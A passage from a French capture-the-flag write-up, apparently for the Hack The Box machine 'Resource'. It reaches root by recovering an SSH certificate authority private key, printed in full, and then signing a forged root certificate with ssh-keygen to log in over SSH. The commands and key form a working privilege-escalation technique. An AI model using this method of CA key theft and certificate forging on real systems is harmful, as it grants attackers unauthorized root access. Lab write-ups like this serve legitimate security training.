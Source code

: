 Après avoir exécuté le script, nous récupérons la clé et la sauvegardons dans un fichier (que j'ai nommé `root.key` dans mon cas).

> Nous devons ajouter manuellement `-----END OPENSSH PRIVATE KEY-----` à la clé.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQAAAKg7BlysOwZc
rAAAAAtzc2gtZWQyNTUxOQAAACCB4PArnctUocmH6swtwDZYAHFu0ODKGbnswBPJjRUpsQ
AAAEBexnpzDJyYdz+91UG3dVfjT/scyWdzgaXlgx75RjYOo4Hg8Cudy1ShyYfqzC3ANlgA
cW7Q4MoZuezAE8mNFSmxAAAAIkdsb2JhbCBTU0cgU1NIIENlcnRmaWNpYXRlIGZyb20gSV
QBAgM=
-----END OPENSSH PRIVATE KEY-----
```

![CA content](/images/HTB-Resource/CA_content.png)

Nous pouvons retourner sur notre machine locale et générer des clés SSH pour root.

1. Générer une paire de clés pour root.

```
ssh-keygen -f root
```

2. Modifier l'autorisation de la clé récupérée.

```
chmod 600 root.key
```

3. Créez un certificat SSH en signant la clé publique.

```
ssh-keygen -s root.key -z 200 -I root -V -52w:forever -n root_user root.pub
```

| Option          | Description                                                                                                                                      |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| -s root.key     | Spécifie la clé de signature, qui est la clé privée de l'autorité de certification (CA).                                                           |
| -z 200          | Indique le numéro de série du certificat. Il s'agit d'un identifiant unique pour le certificat.   |
| -I root         | Spécifie l'identité de la clé. L'identité (`root`) est un label arbitraire pour le certificat.                                               |
| -V -52w:forever | Spécifie la période de validité.                                                                                                                   |
| -n root_user    | Spécifie les principaux autorisés (noms d'utilisateur ou rôles).           |
| root.pub        | Spécifie le fichier de clé publique à signer. Le certificat sera généré pour cette clé, et le fichier résultant sera nommé `root-cert.pub`. |

4. Se connecter en tant que root 

```
ssh root@itrc.ssg.htb -p2222 -i root -i root-cert.pub
```

> La clé privée (`root`) fournit une preuve de propriété, tandis que le certificat (`root-cert.pub`) établit la confiance entre notre clé et le serveur. Le serveur valide le certificat en utilisant la clé publique de l'autorité de certification stockée dans sa configuration (dans `TrustedUserCAKeys`), et utilise ensuite la clé privée pour compléter le processus d'authentification. Le certificat indique au serveur de faire confiance à la clé publique `root.pub` parce qu'elle a été signée par l'autorité de certification (CA) de confiance. Sans le certificat, le serveur ne reconnaîtrait pas la clé comme une identité de confiance.

![root ssh login and flag](/images/HTB-Resource/root_flag.png)

Merci d'avoir lu cet article! Si vous avez des questions, vous pouvez me contacter sur [X](https://x.com/_KScorpio).
